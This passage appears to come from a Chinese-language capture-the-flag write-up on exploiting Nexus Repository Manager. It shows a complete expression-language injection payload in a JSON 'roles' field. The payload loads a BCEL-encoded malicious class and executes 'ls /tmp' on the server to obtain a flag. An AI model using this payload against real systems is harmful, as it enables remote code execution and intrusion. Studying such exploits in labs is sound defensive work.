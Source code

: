   <img src="picture/nexusBCEL编码.png" alt="nexusBCEL编码" style="zoom: 33%;" />

- 加载编码后的恶意class，调用exec方法执行 `ls /tmp` 命令获取flag：

  ```
  "roles":["${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$ff$8dSMS$d3P$U$3d$8f$b6I$J$v$U$K$94$60QA$c5P$uU$E$3fZD$Fq$86$Z$40$87$3a$3a$ZWi$fa$c0$60I$3ai$ca$b0r$e5$7fq$ab$9b$d6$91$d1$a5$L$7f$87$L$fd$P$8ex_Z$3e$8a$ca$d8I$df$cb$bb$f7$9c$7b$eeG$de$d7_$l$3f$D$98$c5$p$F$j$I$c9$I$ab$88$40b$88o$9b$bbf$b6l$3a$5b$d9$c7$c5mn$f9$M$d2$bc$ed$d8$fe$CCH$9fx$a6$m$8aN$Z$8a$8a$$$a8$M$bd$c7$f0$8d$9a$e3$db$3b$9cA$d9$e2$fe$d1a$40$9fX$fd$D$93$97$d1$dd$sU$f0$3d$db$d9$8a$o$ce$mg$8b$b6$93$ad$be$8c$a2$8f$a1$pc$J$c1$7e$V$D$Yd$I$f3$3dn1$e8$fa$8b$d5$d3$dc$fcI$99$t$9ek$f1j$95d$86$Y$G$D$bb$edf$Xk$9b$9b$dc$e3$a5$Nn$96$b8$tc$98A$3b$f4$ad8$95$9aO$91$b8$b9$d3t$xHaD$c6y$V$Xp$b1$ad$ceVp$86n$aa$f3$E$8f$nyXk$7b$c0$bc$C$Nc$a2$bf$97$Y$86$f4$bfBDc$93$b8$o$40$e3$M$89cP3$9b$c0$9f$82$aebBd$p$94$97$3d$cf$f5$9al$Z$93$q$7e$ba$p$8b5$bb$i$U$92FH$E$9fV$91$c55$86$uQJ$ab$b6C$c3$e9o$hN$ab$91$820$a3$e2$Gfi$f4f$a5$c2$9d$SCF$3f$bb$e3m$92A$88$9b$o$c4$z$86$94$bet6$f0$8e$8a$5c$90$97$ef6$9d2$e6$Z$o$7c$d7$y$cf$d0$c8$97$dc$Se$da$p$S$5e$af$ed$U$b9$f7$d4$y$96$c92$fe_$Z$e5$Zb$F$df$b4$5e$ad$99$95$WQY$de$b3x$c5$b7$5d$a7$wc$89$9a$7d$cc9$f2$Q$aa$e0$d6$3c$8b$3f$b2$DJ$90$cc$b4$Ab$Uy$ba1$e2$d7$B$s$ee$M$adw$e94B$3b$a3$3d$92n$80$bd$a7$X$86$FZ$a5$c0$Y$a6u$A$f7$88$o$a0$df$88$s$d3$fe$e6$Dd$e9$TbF$a8$af$a7$60$84$fbz$LFd$b2PGbm$lIc$l$9a1U$c7$b9$GF$h$b8$bc$7e$c2t$b5i$ca$85$f7$916$g$98$caE2ud$8c$9c$f4$F$J$z$a2Iu$5c$8f$xu$cc$3d$7f$7b$f0C$L$ff$cb$f5$5d$8b$d4q$fb$5dP$88$c8t$i$9d$b4F$e9$5b$ed$c2$YTL$n$869t$e3$3e$e2XA$C$W$fa$f1$g$83t$G$f9C$Hd$94d$d0$j$8b$c9H$c9H$GO$g$f8$J$8dl$c3x$d0$aa$7b$91$fe$P$D$95$e5$df$5d$90$g$iv$E$A$A').newInstance().exec('ls /tmp')}"]}]
  ```

  <img src="picture/nexus漏洞利用成功.png" alt="nexus漏洞利用成功" style="zoom:33%;" />

